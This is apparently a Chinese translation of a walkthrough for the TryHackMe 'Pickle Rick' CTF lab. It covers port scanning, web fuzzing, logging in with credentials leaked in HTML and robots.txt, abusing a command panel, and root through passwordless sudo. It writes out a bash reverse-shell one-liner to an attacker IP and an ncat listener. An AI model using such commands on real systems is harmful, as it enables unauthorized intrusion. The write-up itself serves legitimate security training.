# 特写:Pickle Rick @ TryHackMe

> 原文：<https://infosecwriteups.com/write-up-pickle-rick-tryhackme-6a3c838507c2?source=collection_archive---------1----------------------->


这篇关于房间*泡菜里克*的报道是我为 [TryHackMe](https://tryhackme.com) 准备的演练系列的一部分。

[](https://tryhackme.com/room/picklerick) [## 泡菜里克

### 里克和莫蒂·CTF 夫妇。帮助瑞克变回人类！

tryhackme.com](https://tryhackme.com/room/picklerick) 

**房型**:自由
**难度**:轻松

# 实验室描述



# 基本枚举

我从 nmap 扫描开始实验，寻找机器上开放的端口。

```
nmap -nv -Pn -sC -sV -O -T4 -oA nmap 10.10.13.30
```

我使用的选项如下:

*   -n
    无 DNS 解析
    在实验室中没有意义，速度变慢
*   -v
    Verbose
    一找到打开的端口就打印出来
*   -Pn
    没有 ping 扫描
    在实验室中，我假设目标在线
*   -sC
    使用默认的脚本集
    注意:这包括一些侵入式扫描，在 CTF 盒上这没问题，在现实世界中使用`--script=safe`更好
*   -sV
    版本检测
    尝试枚举找到的服务的版本
*   -O
    操作系统检测
    -T4
    使用激进计时
    另一个选项在 CTF 环境中很好，但在现实世界中可能会导致问题
*   -oA
    输出所有格式
    我想有所有格式存储:nmap，xml 和 grepable

如果没有指定端口的任何参数，nmap 会扫描 1000 个最常见的端口。如果你想了解更多，请看文件`/usr/share/nmap/nmap-services`。

结果显示只有两个端口打开:



前 1000 个 TCP 端口的 Nmap 结果

*   端口 22 上的 SSH。只要有其他的途径，通常不值得深入探究。
*   端口 80 上的 web 服务器。web 服务器和它们可能运行的应用程序通常直接位于优先级列表的顶部。

虽然操作系统检测返回不确定性，SSH 和 web 服务器都暗示指向 Ubuntu，可能是基于 [4ubuntu2.6](https://launchpad.net/ubuntu/xenial/amd64/openssh-server/1:7.2p2-4ubuntu2.6) 包版本的 Xenial (16.04)。

# 检查 web 应用程序

第一步是检查服务器上运行的 web 应用程序，因此我打开浏览器看了一下:



主网页

这似乎是一个相当静态的页面，没有任何进一步的链接或功能。

然而，查看 HTML 会发现一条有趣的信息:用户名



HTML 注释中披露的用户名

# 查找更多网络内容

为了检查是否有其他公共文件，我用 [ffuf](https://github.com/ffuf/ffuf) 执行了一次快速模糊处理:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u [http://10.10.13.30/FUZZ](http://10.10.13.30/FUZZ)
```



用 ffuf 快速检查显示了两个有趣的文件

该扫描显示存在两个有趣的文件:

*   一个`robots.txt`
*   答`login.php`

无论如何，对`robots.txt`的检查应该是第一步，因为它可能包含有用的信息。不过，在这种情况下，它是一个非标准文件，只包含一个有趣的单词，这个单词在我所知道的任何语言中都不存在:



robots.txt 文件的内容

这可能是用户名的密码，所以我很快尝试用 ssh 登录。不幸的是，ssh 服务器不提供密码认证。

所以我移动到找到的第二页，即`login.php`，并在那里做同样的事情:



登录成功

# 检查 web 应用程序

登录成功，我开始浏览应用程序。顶部菜单中的所有链接都链接到一个`denied`页面，但是`commands`页面看起来很有趣。

我可以在那里执行的`command`可能是某个特定于应用程序的命令，也可能是一个 shell 命令。我通过键入`id`并执行它来快速尝试一下:



由应用程序所有者提供的 web shell

# 检查文件系统

原来，它是应用程序所有者为了我的方便而提供的一个 web shell。

我现在检查我可以执行命令的环境:



目录内容

试图使用`cut`或`head`读取文件是被禁止的，但是`egrep`没有，所以我用它来 grep 任何*字符:*



第一面旗帜

另一种方法是直接用浏览器打开文件。第二面旗也有线索:



所以我按要求做了。在 rick 的主目录中，我找到了要求的第二种成分:



第二面旗帜

# 获得合适的外壳

使用 web shell 是乏味的，尽管解决这个问题并不需要它，但我想获得适当的 shell 访问权限。在我的本地机器上，我用`ncat -nvlp 8888`启动一个 ncat 监听器，并在命令面板上执行一个反向 shell:

```
bash -c "bash -i >& /dev/tcp/10.14.5.57/8888 0>&1"
```

不幸的是，python 升级到正确的 tty shell 并不成功，因为 python 没有安装。但是这个反壳还是比 web 壳方便很多。

# 本地枚举

对于本地枚举，我使用工具 [linpeas](https://github.com/carlospolop/PEASS-ng) 。我把它下载到我的目标并执行它。

几秒钟后，显示了一个很好的结果:



在 linpeas 中发现易受攻击的配置

同样的信息可以通过`sudo -l`手动获取:



手动找到的相同

低权限帐户`www-data`被允许以 root 用户身份运行任何命令，而无需提供任何密码。

这是一个严重的错误配置，也是通往永恒诅咒的直接途径。

# 提升我的权限

剩下的唯一一件事就是以 root 用户身份执行一些命令:



最后的旗帜

我输入最后的旗帜，房间就完成了。


*最初发表于*[*【https://github.com】*](https://github.com/frank-leitner/tryhackme/blob/main/Pickle_Rick/README.md)*。*

*来自 Infosec 的报道:Infosec 上每天都会出现很多难以跟上的内容。* [***加入我们的每周简讯***](https://weekly.infosecwriteups.com/) *以 5 篇文章、4 个线程、3 个视频、2 个 Github Repos 和工具以及 1 个工作提醒的形式免费获取所有最新的 Infosec 趋势！*